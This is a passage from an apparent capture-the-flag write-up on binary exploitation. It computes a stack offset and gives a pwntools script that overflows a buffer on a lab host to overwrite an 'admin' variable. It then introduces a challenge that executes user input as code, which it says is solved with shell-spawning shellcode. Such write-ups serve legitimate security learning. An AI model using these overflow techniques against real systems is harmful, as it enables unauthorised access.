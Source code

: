 The locations of the variables on the stack are as follows:

- `buf`  : `rbp-0x50`
- `check`: `rbp-0xc`
- `guess`: `rbp-0x8`
- `admin`: `rbp-0x4`

Thus, the `admin` variable is reached after 76 bytes (`0x50 - 0x4`).

We can adapt the exploit from the first challenge by adjusting the offset and the value to be written as follows:

```python
#!/usr/bin/env python3

from pwn import *

context.log_level = "error"

r = remote("10.10.74.205", 9004)

payload = b"A" * 76         # offset to the admin variable
payload += p32(0x59595959)  # overwrite the admin variable with 0x59595959

r.recvuntil(b"Please go ahead and leave a comment :\n")
r.sendline(payload)
print(r.recvline().decode())
r.close()
```

Upon running it, we obtain the second flag.

## TryExecMe

For `TryExecMe`, the provided reference code is as follows:

```c
int main(){
    setup();
    banner();
    char *buf[128];   

    puts("\nGive me your shell, and I will execute it: ");
    read(0,buf,sizeof(buf));
    puts("\nExecuting Spell...\n");

    ( ( void (*) () ) buf) ();

}
```

This time, there is no buffer overflow. The executable reads our input into the `buf` variable, casts the input as a function, and then calls it, effectively executing our input.

To solve this challenge, all we need to do is provide a shellcode that spawns a shell.

